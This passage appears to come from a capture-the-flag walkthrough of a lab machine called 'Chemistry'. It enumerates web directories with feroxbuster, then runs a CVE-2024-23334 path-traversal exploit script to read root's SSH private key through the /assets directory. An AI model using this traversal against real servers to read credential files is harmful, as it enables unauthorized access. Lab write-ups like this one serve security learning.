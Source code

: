I tried using the script as it is, but it didn't work, it seems that the directory with static files is not */static*, so let's search for directories using feroxbuster:

```bash
feroxbuster --url http://127.0.0.1:8080 -r --threads 25 -d 0 -o feroxbuster_dir_and_file_enum_8080.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![](/assets/Chemistry/15.png)
<br />
<br />

***/assets*** seems to be a directory for static files, so let's try the exploit this way, I will try to print **root's SSH private key**:

```bash
python3 CVE-2024-23334.py -u http://127.0.0.1:8080 -f /root/.ssh/id_rsa -d /assets
```

![](/assets/Chemistry/16.png)
<br />
<br />
